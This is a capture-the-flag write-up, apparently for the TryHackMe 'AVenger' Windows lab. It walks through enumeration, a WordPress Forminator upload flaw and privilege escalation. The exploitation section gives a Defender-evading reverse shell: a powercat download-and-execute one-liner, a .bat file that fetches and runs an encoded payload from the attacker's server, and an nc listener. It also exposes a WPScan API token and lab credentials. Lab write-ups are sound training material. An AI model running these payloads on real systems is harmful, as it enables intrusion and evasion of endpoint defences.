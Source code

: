 # AVenger



## Ports Scanning

For this machine we have to use a more stealth command due AV enable.

```bash
nmap -sC -sV --min-rate 1000 10.10.57.181 -oN port_scan.txt

Nmap scan report for 10.10.57.181
Host is up (0.042s latency).
Not shown: 992 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Apache httpd 2.4.56 (OpenSSL/1.1.1t PHP/8.0.28)
| http-ls: Volume /
| SIZE  TIME              FILENAME
| 3.5K  2022-06-15 16:07  applications.html
| 177   2022-06-15 16:07  bitnami.css
| -     2023-04-06 09:24  dashboard/
| 30K   2015-07-16 15:32  favicon.ico
| -     2023-06-27 09:26  gift/
| -     2023-06-27 09:04  img/
| 751   2022-06-15 16:07  img/module_table_bottom.png
| 337   2022-06-15 16:07  img/module_table_top.png
| -     2023-06-28 14:39  xampp/
|_
|_http-server-header: Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.0.28
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Index of /
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
443/tcp  open  ssl/http      Apache httpd 2.4.56 (OpenSSL/1.1.1t PHP/8.0.28)
| http-ls: Volume /
| SIZE  TIME              FILENAME
| 3.5K  2022-06-15 16:07  applications.html
| 177   2022-06-15 16:07  bitnami.css
| -     2023-04-06 09:24  dashboard/
| 30K   2015-07-16 15:32  favicon.ico
| -     2023-06-27 09:26  gift/
| -     2023-06-27 09:04  img/
| 751   2022-06-15 16:07  img/module_table_bottom.png
| 337   2022-06-15 16:07  img/module_table_top.png
| -     2023-06-28 14:39  xampp/
|_
|_http-server-header: Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.0.28
| tls-alpn: 
|_  http/1.1
| http-methods: 
|_  Potentially risky methods: TRACE
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
|_http-title: Index of /
|_ssl-date: TLS randomness does not represent time
445/tcp  open  microsoft-ds?
3306/tcp open  mysql         MariaDB 5.5.5-10.4.28
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.4.28-MariaDB
|   Thread ID: 10
|   Capabilities flags: 63486
|   Some Capabilities: ODBCClient, Support41Auth, SupportsLoadDataLocal, Speaks41ProtocolNew, ConnectWithDatabase, SupportsCompression, SupportsTransactions, IgnoreSpaceBeforeParenthesis, FoundRows, LongColumnFlag, InteractiveClient, IgnoreSigpipes, DontAllowDatabaseTableColumn, Speaks41ProtocolOld, SupportsMultipleStatments, SupportsMultipleResults, SupportsAuthPlugins
|   Status: Autocommit
|   Salt: Nw207dp*|Vws\QbyX-w1
|_  Auth Plugin Name: mysql_native_password
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=gift
| Not valid before: 2025-07-23T20:24:16
|_Not valid after:  2026-01-22T20:24:16
| rdp-ntlm-info: 
|   Target_Name: GIFT
|   NetBIOS_Domain_Name: GIFT
|   NetBIOS_Computer_Name: GIFT
|   DNS_Domain_Name: gift
|   DNS_Computer_Name: gift
|   Product_Version: 10.0.17763
|_  System_Time: 2025-07-24T20:25:04+00:00
|_ssl-date: 2025-07-24T20:25:13+00:00; +1s from scanner time.
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: Hosts: localhost, www.example.com; OS: Windows; CPE: cpe:/o:microsoft:windows

```



## Web Enumeration

<figure><img src="../../../.gitbook/assets/image (319).png" alt=""><figcaption></figcaption></figure>



If we try to enter in the `gift/` directory, the domain will change in this:

<figure><img src="../../../.gitbook/assets/image (320).png" alt=""><figcaption></figcaption></figure>

add this domain to `/etc/hosts` to view the site.

Try to enumerate with dir/file discovering.

{% code overflow="wrap" %}
```bash
gobuster dir -u http://avenger.tryhackme/gift/ -w /usr/share/wordlists/SecLists_custom/raft-large-directories.txt -b 403,404

/admin                (Status: 302) [Size: 0] [--> http://avenger.tryhackme/gift/wp-admin/]
/wp-content           (Status: 301) [Size: 357] [--> http://avenger.tryhackme/gift/wp-content/]
/wp-admin             (Status: 301) [Size: 355] [--> http://avenger.tryhackme/gift/wp-admin/]
/wp-includes          (Status: 301) [Size: 358] [--> http://avenger.tryhackme/gift/wp-includes/]
```
{% endcode %}

### Wordpress Login Brute Forcing

These route bring you to `wp-login` portal.

<figure><img src="../../../.gitbook/assets/image (321).png" alt=""><figcaption></figcaption></figure>

Checking with wafw00f tool we can view that the site not has a WAF enabled.

```bash
wafw00f http://avenger.tryhackme/gift/wp-login.php

[*] Checking http://avenger.tryhackme/gift/wp-login.php
[+] Generic Detection results:
[-] No WAF detected by the generic detection # <--
[~] Number of requests: 7
```

Trying to enter with a admin:admin credentials we can notice that a message appair, tell us that the user admin exists.

<figure><img src="../../../.gitbook/assets/image (322).png" alt=""><figcaption></figcaption></figure>

So, knowing that the site not has WAF enabled and we have already know a user valid, we could do a brute force to guessing the password of admin user.

Nothing found :(

### WPScan

Try to run e WPScan to detect some vulnerability.

{% code overflow="wrap" %}
```bash
wpscan --url http://avenger.tryhackme/gift/ --api-token eVAkNLx5URNVNRP2xj1Uxon9CWFslz5Aas8bWb5jcO8 --random-user-agent -v
```
{% endcode %}

From this we can notice that the File Upload is managed by Forminator Plugin. That reading from readme of the plugin is not updated.

<figure><img src="../../../.gitbook/assets/image (324).png" alt=""><figcaption></figcaption></figure>

Searching online there are some vulnerabilities, but in particulary there is a Unauthentication File Upload and RCE.

{% embed url="https://www.exploit-db.com/exploits/51664" %}

If we upload a file in the form we can see this message.

<figure><img src="../../../.gitbook/assets/image (327).png" alt=""><figcaption></figcaption></figure>

This make us think that any files will upload a person will open it. So, we can upload a file to establish a revshell.

### Forminator Plugin RCE - AV Bypass

We can consider that the Windows Server machine has AV Windows Defender enabled.

And if the upload a simple file with a rev shell, this won't works.

Reading this article, we have a method to bypass the AV.

{% embed url="https://systemweakness.com/evade-windows-defender-reverse-shell-detection-6fa9f5eee1d1" %}

{% content-ref url="../../../pt/executive-pt/post-exploitation/shells/av-bypass-shell.md" %}
[av-bypass-shell.md](../../../pt/executive-pt/post-exploitation/shells/av-bypass-shell.md)
{% endcontent-ref %}

Follow the above pages we obtained the reverse shell bypassing Windows Defender.

Create the encoded RevShell to host in a Http server.&#x20;

```bash
LHOST=10.23.52.142
LPORT=9009
rshell=shell.txt
pwsh -c "iex (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1');powercat -c $LHOST -p $LPORT -e cmd.exe -ge" > /tmp/$rshell
```

```bash
python3 -m http.server 80
```

Now create the .bat file that will be open by a support user.

```bash
LHOST=10.23.52.142
LPORT_web=80
rshell=shell-9009.txt
echo START /B powershell -c "\$code=(New-Object System.Net.Webclient).DownloadString('http://${LHOST}:${LPORT_web}/${rshell}');iex 'powershell -E \$code'" >/tmp/backup.bat 
```

Lastly start a listener

```bash
rlwrap nc -nlvp 9009
```

Upload the file and when it will be open we will obtain a RevShell.

<figure><img src="../../../.gitbook/assets/image (314).png" alt=""><figcaption></figcaption></figure>

Now we can print the user flag.

```powershell
more C:\Users\hugo\Desktop\user.txt
```



## Privilege Escalation

During the local windows enumeration, we noticed that the user hugo is in the Administrator group

```powershell
net localgroup administrators

Members
------------------------
Administrator
hugo
```

Check if there are some saved credentials in the Auto logon reg keys.

```
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
```

We found hugo's credential . With this creds we can logon via RDP and run Powershell as administrator and get the root flag.

```bash
xfreerdp3 /v:10.10.26.184 /u:hugo /p:SurpriseMF123!
```

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



